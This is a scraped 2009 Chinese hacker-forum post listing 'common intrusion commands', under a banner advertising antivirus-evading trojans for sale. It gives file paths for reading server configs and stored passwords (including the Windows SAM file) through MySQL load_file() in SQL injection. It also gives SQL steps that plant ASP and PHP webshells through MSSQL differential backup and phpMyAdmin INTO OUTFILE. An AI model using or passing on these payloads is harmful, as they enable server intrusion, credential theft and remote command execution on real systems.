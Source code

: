 *正式版主*

![Rank: 9]()![Rank: 9]()![Rank: 9]()

帖子1385 积分693 威望0 个 金币7207 个 宣传3 个 注册时间2008-1-22 最后登录2009-10-26  **[*1*楼]( "复制本帖链接")**

[打印](http://bbs.hackerxfiles.net/viewthread.php?action=printable&tid=381849)

字体大小: tT

![]() *发表于 2009-10-15 17:05* | [只看该作者](http://bbs.hackerxfiles.net/viewthread.php?tid=381849&page=1&authorid=159362)

[承接免杀木马业务_出售各类免杀木马](http://bbs.hackerxfiles.net/goto.php?url=aHR0cDovL3NiYXBzcGwuMzMyMi5vcmcvb2trLmh0bWw=)

[![]()](http://bbs.hackerxfiles.net/goto.php?url=aHR0cDovL3d3dy53b3JtLXguY29t)
# [[资料]](http://bbs.hackerxfiles.net/forumdisplay.php?fid=50&filter=type&typeid=34) 一些常用的入侵命令

load_file()读取文件
—————————————————————————————————
MYSQL注入中，load_file()函数在获得webshell以及提权过程中起着十分重要的作用，常被用来读取各种配置文件，如：
/usr/local/app/apache2/conf/httpd.conf //apache2缺省配置文件
/usr/local/apache2/conf/httpd.conf
/usr/local/app/apache2/conf/extra/httpd-vhosts.conf //虚拟网站设置
/usr/local/app/php5/lib/php.ini //PHP相关设置
/etc/sysconfig/iptables //从中得到防火墙规则策略
/etc/httpd/conf/httpd.conf // apache配置文件
/etc/rsyncd.conf //同步程序配置文件
/etc/sysconfig/network-scripts/ifcfg-eth0 //查看IP.
/etc/my.cnf //mysql的配置文件
/etc/redhat-release //系统版本
/etc/issue
/etc/issue.net
c:\mysql\data\mysql\user.MYD //存储了mysql.user表中的数据库连接密码
c:\Program Files\RhinoSoft.com\Serv-U\ServUDaemon.ini //存储了虚拟主机网站路径和密码
c:\Program Files\Serv-U\ServUDaemon.ini
c:\windows\my.ini //MYSQL配置文件
c:\windows\system32\inetsrv\MetaBase.xml //IIS配置文件
等等。实际上，load_file()的作用不止于此，它还可以用来读取系统中的二进制文件，
c:\windows\repair\sam //存储了WINDOWS系统初次安装的密码
c:\Program Files\ Serv-U\ServUAdmin.exe //6.0版本以前的serv-u管理员密码存储于此
c:\Program Files\RhinoSoft.com\ServUDaemon.exe
C:\Documents and Settings\All Users\Application Data\Symantec\pcAnywhere\*.cif文件
//存储了pcAnywhere的登陆密码
————————————————————————————————————————————————
mssql差异备份webshell
1.备份数据
backup database 库名 to disk = 'c:\windows\char.bak';--
2.创建表并插曲入数据
create table [dbo].[dtest] ([cmd] [image]);
insert into dtest(cmd) values(0x3C25657865637574652872657175657374282261222929253E);--
3.进行差异备份
backup database 库名 to disk='目标位置\char.asp' WITH DIFFERENTIAL,FORMAT;--
—————————————————————————————————————————————————
phpmyadmin插马
create table a (hack text not null);
insert into a (hack) values ('<?php system($_REQUEST[cmd]);?>');
select hack from a into outfile 'D:/php/www/hack.php';
drop table a;
phpmyadmin/libraries/select_lang.lib.php
[http://bbs.hackerxfiles.net/goto.php?url=aHR0cDovL3d3dy5oeGhhY2suY29tL2Jicy9pbmRleC5waHA=](http://bbs.hackerxfiles.net/goto.php?url=aHR0cDovL3d3dy5oeGhhY2suY29tL2Jicy9pbmRleC5waHA=)
—————————————————————————————————————————————————